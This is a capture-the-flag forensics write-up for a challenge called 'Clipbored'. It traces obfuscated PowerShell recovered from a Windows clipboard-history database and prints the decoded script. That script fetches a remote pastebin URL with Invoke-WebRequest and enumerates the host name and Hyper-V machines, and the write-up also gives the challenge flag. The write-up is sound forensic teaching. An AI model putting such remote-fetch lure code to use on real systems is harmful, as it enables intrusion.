

# Clipbored



## Files

* **clipbored.zip**: challenge file

<details>
<summary>Solution</summary>

* After unzipping the file, we get two SQLite databases: `History` and `ActivitiesCache.db`.
* We start by browsing the `History` DB. It looks like a DB that could be part of a web browser, as it contains URL and search queries.
* We understand that some user, "Julie", was tricked to download and execute some remote access program by a malicious actor.
* After browsing for a while with no success, we continue with `ActivitiesCache.db` file.
* After browsing for a while, we find a column **ClipboardPayload** in the **SmartLookup** table.
* It contains multiple entries which looks like base 64 encoded strings.
* After decoding each, we finally find something looking like obfuscated PowerShell.
* Giving it to ChatGPT, we obtain the following result :
    <details>
    <summary>Decoded PowerShell</summary>

    ```powershell
    $encodedString = "oQfg...aIlGJ" # stripped for readability

    $reversed = $encodedString.ToCharArray()
    [array]::Reverse($reversed)
    $reversedString = -join $reversed

    switch ($reversedString.Length % 4) {
        0 { $fixed = $reversedString }
        1 { $fixed = $reversedString.Substring(0, $reversedString.Length - 1) }
        2 { $fixed = $reversedString + "==" }
        3 { $fixed = $reversedString + "=" }
    }

    $decoded = [System.Text.Encoding]::UTF8.GetString(
        [System.Convert]::FromBase64String($fixed)
    )
    ```

    </details>

* This code obviously decodes a base64 string after reversing it and fixing its padding.
* Let's do these operations with CyberChef. Here is the result:
    <details>
    <summary>Decoded PowerShell</summary>

    ```powershell
    $iHhuAhve99 = "http://pastebin.com/iLhSDfxb" 
    $bFdgCGRC99 = Invoke-WebRequest -Uri $iHhuAhve99 -UseBasicParsing
        Write-Host "ERROR"
    Write-Host "$ENv:COMPUTERNAME"
            if (Get-Command Get-VM -ErrorAction SilentlyContinue) {
    Write-Host "`nMachines virtuelles (Hyper-V) détectées :"
    Get-VM | Select-Object Name, State
            } else {
    Write-Host ":)"
        }
    ```

    </details>

* The pastebin link looks interesting. Let's visit it.
* Hey, that's the flag !

Flag : `ECW{c1ippy_is_b4ck}`


</details>